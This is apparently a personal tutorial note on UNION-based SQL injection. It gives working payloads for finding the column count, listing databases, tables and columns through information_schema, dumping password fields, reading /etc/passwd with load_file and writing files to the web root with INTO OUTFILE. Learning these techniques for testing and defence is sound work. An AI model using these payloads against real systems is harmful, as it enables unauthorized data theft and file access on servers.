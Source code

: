 ```yaml
---
title: UNION based (In-band) Injection
tags:
  - security
  - sqli
  - web
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


They can be used to combine of output of two SELECT statements
This method only works if the number of columns in both the statements are the same

````sql
SELECT * FROM login 
UNION 
SELECT 1, 2, 3;
````

In place of numbers we can use SQL functions

````sql
SELECT * FROM login 
UNION 
SELECT database(), user(), version();
````

### Finding Number of Columns

#### Brute Force Approach

We can try different number of columns till we find the result that works
union select 1# (Error)
union select 1,2# (Error)

#### ORBER BY Clause

We cause the query `ORBER BY 20#` and see if we get error if so there are less an 20 columns
Then we try 10. If no error which means there are either exactly 10 or more than 10 columns
No we can try values between 10 and 20 till be find the no. of columns

 > [!NOTE]
 > Not all columns from the DB are going to be present in output. Only the fields that are fetched from the DB can be used for fetching information

### Finding Tables Names and Column Values

#### View DB Names

The "schema_name" column consist of the DB names

````sql
SELECT schema_name 
FROM information_schema.schemata;
````

So we can used "schema_name" to find all the DB

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), schema_name, version() 
FROM information_schema.schemata;#
````

#### View Table Names in DB

The "table_name" column consist of the table name

````sql
SELECT table_name 
FROM information_schema.tables 
WHERE table_schema="<db-name>";
````

Now we can view all the tables in the DB using the following

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), table_name, version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

The `group_concat()` function will show all the results as an single string

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), group_concat(table_name), version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

#### Table Column Names

The "column_name" filed consist of the column names of the table

````sql
SELECT column_name 
FROM information_schema.columns 
WHERE table_name='<table-name>';
````

The columns of the table can be viewed as follows

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), column_name, version() 
FROM information_schema.columns 
WHERE table_name='<table-name>';#
````

#### View Data from Columns

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, id, 8, password, column_name, version 
FROM <table-name>;#
````

### Reading and Writing Files to Server

#### Reading Data from File

Load File can be used to load files on Server

````sql
UNION 
SELECT 1, load_file('/etc/passwd'), null, null;#
````

#### Writing Data to File

Outfile command can be used to write data to a file on the server

````sql
UNION 
SELECT null, 'example text', null, null INTO OUTFILE '/var/www/example.txt';#
````

For reading and writing to the server we need to have the right permissions so only works if the permissions are miss configured

